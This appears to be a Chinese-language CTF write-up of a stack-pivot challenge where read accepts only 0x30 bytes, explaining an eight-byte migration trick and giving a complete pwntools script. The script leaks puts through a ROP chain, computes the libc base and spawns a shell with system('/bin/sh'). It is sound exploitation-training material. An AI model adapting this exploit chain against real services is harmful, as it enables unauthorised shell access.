 于是我们来看题，vuln函数如下：

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-35-1024x233.png" alt="img" style="zoom:67%;" />

这道题的难点主要在read只读入0x30字节

按照正常泄露地址的流程：

payload = next_rbp + pop_rdi_ret + puts_got + puts_plt + read_addr + bss-0x20 + leave_ret一共会有0x38个字节。

经过网上信息检索和出题人的提示，原来这题可以通过往上迁移八字节来写入

我们可以多构造一次read函数来栈迁移，这次栈迁移的效果主要是将read计算的buf往上抬8字节，如下

***(bss_fake_stcak+8)+ read_addr + ret + ret + bss-0x20 + leave_ret\***

这样，rbp会被迁移到bss_fake_stack+8,而下次读入的&buf2 = &buf1 + 8，我们输入的第一个字长会在之前的read_addr处！

也就是说我们可以不传入bss_fake_stack(也就是板子里的next_rbp,这样就可以少写一个字长

所以我们可以给出代码！！！

```
from pwn import *
io = process('./pwn')
#io = remote('47.97.58.52',43001)
elf = ELF('./pwn')
libc = ELF('libc.so.6')
context(os = 'linux',arch ='amd64',log_level = 'debug')
puts_got = 0x404018
puts_plt = 0x401070
leave_ret = 0x401234
pop_rdi = 0x4012c3
ret = 0x40101a
bss = 0x404800
read = 0x40121D
payload = b'a'*0x20 + p64(bss) + p64(read)
gdb.attach(io)
pause()
io.sendafter(b'but not stack ~\n',payload)
payload1 = p64(bss+0x8) + p64(read) + p64(0)*2+ p64(bss-0x20) + p64(leave_ret)
io.send(payload1)
payload2 =p64(pop_rdi) + p64(puts_got) + p64(puts_plt) +p64(read) + p64(bss-0x20) + p64(leave_ret)
io.send(payload2)
k = u64(io.recvuntil(b'\n',drop = True).ljust(8,b'\x00'))
print(hex(k))
libc_base = k - libc.symbols['puts']
sys_addr = libc_base + libc.symbols['system']
bin_addr = libc_base + next(libc.search(b"/bin/sh\x00"))
payload3 = p64(ret)*3 + p64(pop_rdi) + p64(bin_addr)  + p64(sys_addr)
io.send(payload3)
io.interactive()
```

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-36-1024x588.png" alt="img" style="zoom:67%;" />
